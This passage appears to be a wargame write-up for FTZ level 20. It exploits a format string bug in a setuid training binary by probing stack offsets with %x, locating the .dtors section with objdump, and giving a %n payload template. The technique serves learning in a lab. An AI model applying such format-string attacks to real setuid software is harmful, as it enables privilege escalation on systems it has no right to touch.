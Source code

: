 # Level20 (Final Level)

## This level's goal
- FSB

***

```
[level20@ftz level20]$ ls -l
-rwsr-sr-x    1 clear    clear       11777 Jun 18  2008 attackme
-rw-r-----    1 root     level20       133 May 13  2002 hint

[level20@ftz level20]$ cat hint

#include <stdio.h>
main(int argc,char **argv)
{ 
  char bleh[80];
  setreuid(3101,3101);
  fgets(bleh,79,stdin);
  printf(bleh);
}
```

In the hint, I could see the printf(bleh) that I might exploit with FSB.

```
[level20@ftz level20]$ ./attackme
AAA
AAA
[level20@ftz level20]$ ./attackme
%x
4f
[level20@ftz level20]$ ./attackme
AAAA %x %x %x %x
AAAA 4f 4212ecc0 4207a750 41414141
```

4f means 79 in decimal, it seeams that I could exploit iu fourth.

```
[level20@ftz level20]$ gdb tmp/attackme
(gdb) disass main
No symbol "main" in current context.
```

I could not see the symbol, so I will get information with objdump.

```
[level20@ftz level20]$ objdump -h attackme

attackme:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn

 18 .dtors        00000008  08049594  08049594  00000594  2**2
                  CONTENTS, ALLOC, LOAD, DATA
```

__DOTR-List's address is 0x08049594 which I will exploit with this.

The attack code format   
`$(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`





